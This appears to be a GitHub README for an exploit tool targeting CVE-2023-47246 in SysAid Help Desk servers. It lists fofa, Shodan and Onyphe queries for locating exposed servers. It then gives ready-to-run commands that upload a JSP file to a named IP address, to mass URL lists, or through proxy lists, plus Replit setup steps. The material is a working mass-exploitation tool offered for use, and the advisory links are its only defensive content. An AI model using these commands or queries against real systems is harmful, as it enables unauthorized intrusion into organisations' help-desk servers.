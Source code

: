 # Vulnerability details

## Clone on replit:
[![Run on Replit](https://replit.com/badge/github/tucommenceapousser/CVE-2023-47246)](https://replit.com/github/tucommenceapousser/CVE-2023-47246)

1. fofa:

   ```text
   body="sysaid-logo-dark-green.png" || title="SysAid Help Desk Software" || body="Help Desk software <a href=\"http://www.sysaid.com\">by SysAid</a>"
   ```

shodan
```
http.favicon.hash:1540720428
```


onyphe.io

[https://www.onyphe.io/search?q=category%3Adatascan+cpe%3A%22cpe%3A%2Fa%3Asysaid%3Ahelp_desk_software%3A-%22&g-recaptcha-response=03AFcWeA4VpQc5UkjerpJN4kqs4NuRTBE29ETcWwuCe_m7z9mois24KksasmCqHjKpxiqSfOFQbQyiE75p4ep5BmmV_E84sYo1qVr0MD5ZI3N4Cl3E12H0Mzg-BQcL7162ubWtvlKd6LxqbWgF9eejffE7iBoGsLsQap-e2STsDz-kIWCxXftSKOaNVpSKCR9HUa7N1xZshO-0LQqKhfggsSWVi7SZI7gXqo016j4Fn-qkJ59MEpBbt3GCGsAuw4pokNe0kbuQeNErxqRPsRau9JaCjqnVhCq7usf_kl9ZR2D5p6Jd16FhezGLI3TNQCruvVd9OYJbI5BYYj49Z_WQ4ZYw0BXZyY8zH1qqCubKf9R8-YeXrEAK7ey3Kr7mTPyuqJvtN0r-umi7jYLYXDQGoXKOCwSXcBBUcwMOWuU2Q5Bs8ICDL3ZekNjeCkPM9ATqD6IKjiztjSm4uaWlgob8RkLArTWUypLAArcxTs3wYTApWofwV8nuC_0KuSM4o-LSwM6fV0VW_kCv8-OzTVx9h5QeobTFMTLXWy3gDOaicaMuvVvFX5Xqsw4CmZR5-2k5VhXKB7izzoar
](https://t.co/oeRLgORoIv)


2. Affected versions: SysAid Server<23.3.36

# Vulnerability recurrence

1. Execute the script:

33 Mode Single
   ```shell
   git clone https://github.com/tucommenceapousser/CVE-2023-47246.git
   cd CVE-2023-47246
   pip install -r requirements.txt
   chmod +x expp
   ./expp -u https://170.82.173.30:443 -f def.jsp
   ```
## Mode Mass
   ```shell
   git clone https://github.com/tucommenceapousser/CVE-2023-47246.git
   cd CVE-2023-47246
   pip install -r requirements.txt
   chmod +x expp
   ./expp -m urls.txt -f def.jsp
   ```

## Mode Proxy-List
   ```shell
   git clone https://github.com/tucommenceapousser/CVE-2023-47246.git
   cd CVE-2023-47246
   pip install -r requirements.txt
   chmod +x exp
   ./exp -m urls.txt --proxy-list proxies.txt -f def.jsp
   ```
2. result:![](https://static-trkn.replit.app/47246.jpg)

# On replit
change the first lign of exp
```
#!venv/bin/python
```
use this command
```
python -m venv venv
```
```
source venv/bin/activate
```
```
chmod +x exp
```
```
exp -m urls.txt -f def.jsp
```

# Reference

https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2023/CVE-2023-47246.yaml  
https://www.huntress.com/blog/critical-vulnerability-sysaid-cve-2023-47246  
https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification  
https://www.zscaler.com/blogs/security-research/coverage-advisory-cve-2023-47246-sysaid-zero-day-vulnerability

